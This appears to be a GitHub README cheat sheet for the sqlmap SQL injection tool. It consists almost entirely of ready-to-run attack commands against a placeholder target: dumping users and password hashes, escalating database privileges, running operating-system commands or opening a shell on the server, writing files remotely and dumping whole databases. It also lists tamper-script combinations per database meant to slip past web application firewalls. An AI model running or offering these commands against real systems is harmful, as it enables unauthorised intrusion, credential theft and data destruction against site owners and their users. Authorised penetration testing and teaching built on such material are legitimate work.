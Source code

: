 # SQLMapCheatsheet

## Command
- Target the http://target.server.com URL using the “-u” flag:
```
sqlmap -u 'http://target.server.com'
```

- Specify POST requests by specifying the “–data” flag:
```
sqlmap -u 'http://target.server.com' --data='param1=blah&param2=blah'
```

- Target a vulnerable parameter in an authenticated session by specifying cookies using the “–cookie” flag:
```
sqlmap -u 'http://target.server.com' --cookie='JSESSIONID=09h76qoWC559GH1K7DSQHx'
```

- Drop all Set-Cookie requests from the target web server using the “–drop-set-cookie” flag:
```
sqlmap -u 'http://target.server.com' -r req.txt --drop-set-cookie
```
- Perform in-depth and risky attacks using the “–level” and “–risk” flags:
```
sqlmap -u 'http://target.server.com' --data='param1=blah' --level=5 --risk=3
```
- Specify which POST or GET parameter to target using the “-p” flag:
```
sqlmap -u 'http://target.server.com' --data='param1=blah&param2=blah' -p param1
```
- Choose a random User-Agent request header using the “–random-agent” flag:
```
sqlmap -u 'http://target.server.com' -r req.txt --random-agent
```
- Target a certain database service using the “–dbms” flag:
```
sqlmap -u 'http://target.server.com' -r req.txt --dbms Oracle
```
- Read a request (stored via Burpsuite) target the user parameter (and no other parameters), run risky queries, and dump users and passwords:
```
sqlmap -r ./req.txt -p user --level=1 --risk=3 --passwords
```
- Attempt privilege escalation on the target database
```
sqlmap -r ./req.txt --level=1 --risk=3 --privesc
```
- Run the “whoami” command on the target server.
```
sqlmap -r ./req.txt --level=1 --risk=3 --os-cmd=whoami
```
- Dump everything in the database, but wait one second in-between requests.
```
sqlmap -r ./req.txt --level=1 --risk=3 --dump --delay=1
```
- Here are some useful options for your pillaging pleasure:
```
-r req.txt Specify a request stored in a text file, great for saved requests from BurpSuite.
–force-ssl Force SQLmap to use SSL or TLS for its requests.
–level=1 only test against the specified parameter, ignore all others.
–risk=3 Run all exploit attempts, even the dangerous ones (could damage database).
–delay Set a delay in-between requests, great for throttled connections.
–proxy Set to http://127.0.0.1:8080 to pipe requests through BurpSuite for inspection.
–privesc Attempt to elevate the privileges of the database service account.
–all Enumerate everything inside the target database.
–hostname Print the target database’s hostname.
–passwords Find and exfiltrate all users and their password hashes or digests.
–dbs Enumerate all databases accessible via the target webserver.
–comments Enumerate all found comments inside the database.
–sql-shell Return a SQL prompt for interaction.
–os-cmd Attempt to execute a system command.
–os-shell Attempt to return a command prompt or terminal for interaction.
–reg-read Read the specified Windows registry key value.
–file-write Specify a local file to be written to the target server.
–file-dest Specify the remote destination to write a file to.
–technique Specify a letter or letters of BEUSTQ to control the exploit attempts:
    B: Boolean-based blind
    E: Error-based
    U: Union query-based
    S: Stacked queries
    T: Time-based blind
    Q: Inline queries
```


## Tamper
  - **All scripts**
  ```
  --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
  ```

  - **General scripts**
  ```
  --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
  ```

  - **Microsoft access**
  ```
  --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
  ```

  - **Microsoft SQL Server**
  ```
  --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
  ```

  - **MySQL**
  ```
  --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
  ```

  - **Oracle**
  ```
  --tamper=between,charencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes,xforwardedfor
  ```

  - **PostgreSQL**
  ```
  --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,xforwardedfor
  ```

  - **SAP MaxDB**
  ```
  --tamper=ifnull2ifisnull,nonrecursivereplacement,randomcase,securesphere,space2comment,space2plus,unionalltounion,unmagicquotes,xforwardedfor
  ```

  - **SQLite**
  ```
  --tamper=ifnull2ifisnull,multiplespaces,nonrecursivereplacement,randomcase,securesphere,space2comment,space2dash,space2plus,unionalltounion,unmagicquotes,xforwardedfor
  ```
